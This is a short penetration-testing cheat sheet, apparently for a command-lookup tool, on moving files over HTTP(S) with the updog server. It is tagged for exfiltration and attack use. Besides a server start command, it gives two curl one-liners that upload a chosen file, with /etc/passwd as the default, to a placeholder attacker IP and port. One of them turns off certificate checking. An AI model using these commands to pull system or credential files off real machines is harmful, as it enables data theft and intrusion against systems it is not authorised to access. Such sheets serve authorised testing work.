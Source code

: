 # FileTransfer-HTTP(s)

% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 


## updog server
#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 
```
updog -d $(pwd) -p <lport> [--ssl]
```

= lport : 8080

## curl - upload to updog (http)
For secured by password use http://:<password>@<ip>:<port>/upload
```
curl -XPOST -F "file=@<file|/etc/passwd>;filename=<filename>" -F "path=<path>" http://<ip>:<port|9090>/upload
```

## curl - upload to updog (https)
For secured by password use http://:<password>@<ip>:<port>/upload
```
curl -XPOST -k -F "file=@<file|/etc/passwd>;filename=<filename>" -F "path=<path>" https://<ip>:<port|9090>/upload
```
